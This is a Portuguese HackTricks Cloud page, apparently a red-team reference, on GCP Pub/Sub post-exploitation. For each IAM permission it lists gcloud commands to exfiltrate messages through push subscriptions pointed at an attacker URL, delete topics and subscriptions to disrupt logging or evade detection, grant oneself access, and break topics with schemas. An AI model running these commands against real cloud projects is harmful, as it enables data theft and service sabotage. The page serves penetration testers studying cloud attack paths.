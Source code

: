 # GCP - Pub/Sub Pós-Exploração

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Pub/Sub

Para mais informações sobre Pub/Sub, confira a seguinte página:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Publique uma mensagem em um tópico, útil para **enviar dados inesperados** e acionar funcionalidades inesperadas ou explorar vulnerabilidades:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Útil para impedir que uma assinatura receba mensagens, talvez para evitar detecção.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Útil para impedir que uma assinatura receba mensagens, talvez para evitar detecção.\
É possível excluir um tópico mesmo com assinaturas anexadas a ele.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Use esta permissão para atualizar algumas configurações do tópico para interrompê-lo, como `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Dê a si mesmo permissão para realizar qualquer um dos ataques anteriores.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Obtenha todas as mensagens em um servidor web:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Crie uma assinatura e use-a para **puxar mensagens**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Excluir uma assinatura** pode ser útil para interromper um sistema de processamento de logs ou algo semelhante:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Use esta permissão para atualizar alguma configuração para que as mensagens sejam armazenadas em um local que você possa acessar (URL, tabela Big Query, Bucket) ou apenas para interrompê-lo.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Dê a si mesmo as permissões necessárias para realizar qualquer um dos ataques comentados anteriormente.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Ataque um esquema a um tópico para que as mensagens não o cumpram e, portanto, o tópico seja interrompido.\
Se não houver esquemas, você pode precisar criar um.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Isso pode parecer que ao deletar um esquema você poderá enviar mensagens que não atendem ao esquema. No entanto, como o esquema será deletado, nenhuma mensagem realmente entrará no tópico. Portanto, isso é **INÚTIL**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Dê a si mesmo as permissões necessárias para realizar qualquer um dos ataques comentados anteriormente.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Isso criará um snapshot de todas as mensagens não reconhecidas e as colocará de volta na assinatura. Não é muito útil para um atacante, mas aqui está:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporte o HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}
